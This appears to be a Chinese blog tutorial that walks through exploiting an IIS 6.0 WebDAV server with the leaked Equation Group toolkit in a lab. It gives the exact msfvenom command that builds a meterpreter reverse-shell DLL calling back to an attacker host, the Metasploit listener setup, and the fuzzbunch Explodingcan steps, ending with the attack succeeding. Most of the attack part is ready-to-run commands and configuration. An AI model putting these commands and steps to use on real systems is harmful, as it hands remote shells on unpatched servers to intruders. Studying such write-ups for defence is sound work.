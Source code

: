 ```yaml
---
title: NSA工具包验证之IIS6.0漏洞利用
date: 2017-06-15 21:20:05
tags: 网络安全
index_img: /assets/headImg/kali.png
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.3)：开放了80端口的Windows Server 2003 R2，IIS6.0，开启了Webdav功能

以上所有IP之间均可以直接访问
<!--more-->

### 验证步骤：

* * *

#### 第一步：生成可执行的恶意dll文件

0x01

首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：

![1.jpg](post164/1.jpg)

0x02

执行命令：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```

在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell

0x03

点击xshell如图位置

![3.jpg](post164/3.jpg)

打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图

![4.jpg](post164/4.jpg)

#### 第二步：配置kali使得kali处于监听状态

0x01

依次输入命令

```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功

![2.jpg](post164/2.jpg)

这时就可以将xshell最小化，等后边再用

#### 第三步：使用方程式工具包进行攻击

0x01

将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错

![5.jpg](post164/5.jpg)

0x02

打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图

![1.jpg](post164/1-16273798173061.jpg)

最后敲击回车

0x03

显示出`fb >`之后输入命令
```
use Explodingcan
```

使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可

![2.jpg](post164/2-16273798424632.jpg)

（选择系统，CallbackIP、CallbackPort等，端口可以任意设置）

![3.jpg](post164/3-16273798583573.jpg)

之后都保存默认配置，攻击成功如图

![4.jpg](post164/4-16273798725894.jpg)